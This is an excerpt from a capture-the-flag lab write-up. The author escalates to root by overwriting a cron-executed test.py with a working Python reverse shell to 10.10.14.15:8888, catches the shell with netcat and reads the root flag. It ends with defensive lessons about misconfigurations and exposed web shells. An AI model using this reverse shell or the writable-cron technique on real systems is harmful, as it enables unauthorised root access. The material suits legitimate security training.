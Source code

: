 ```bash
cp test.py.1 test.py

# Check if overwritten
cat test.py
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((“10.10.14.15”,8888))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);

# Chekcing onemore time, the file size is same .
ls -l
total 12
-rw-r--r-- 1 scriptmanager scriptmanager 226 Sep  4 07:50 test.py
-rw-r--r-- 1 scriptmanager scriptmanager 226 Sep  4 07:48 test.py.1
-rw-r--r-- 1 root          root           12 Sep  4 07:50 test.txt
```

Also start a listner on netcat on the port specified in test.py file.
and wait a minute for the cron job to be executed .
Notice the root shell(#) on netcat listner.

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ nc -nlvp 8888   #Starting Netcat Listner on port we speified in test.py files
listening on [any] 8888 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.68] 33320
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

root flag:
```bash
#Reading the /root/root.txt flag
cat /root/root.txt
28975174abf7e96d935c3df1965881ca
```


## Learnings

1- Overly permissive misconfigurations should be looked for, here was scriptmanager user.
2- WebShell exposure to public even when not linked to webpage, should be avoided. We discovered this via gobuster.